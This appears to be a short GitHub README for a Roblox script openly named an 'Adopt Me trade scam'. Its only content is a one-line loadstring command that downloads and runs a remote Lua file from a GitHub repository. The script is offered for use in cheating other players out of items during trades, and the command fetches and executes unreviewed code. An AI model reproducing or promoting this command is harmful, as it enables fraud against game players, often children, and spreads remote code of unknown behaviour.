 # ADOPT-ME-TRADE-SCAM-UNPATCHED

SCRIPT : loadstring(game:HttpGet("https://raw.githubusercontent.com/drec1234/ADOPT-ME-TRADE-SCAM-UNPATCHED/main/Adopt%20me%20trade%20scam.lua",true))()
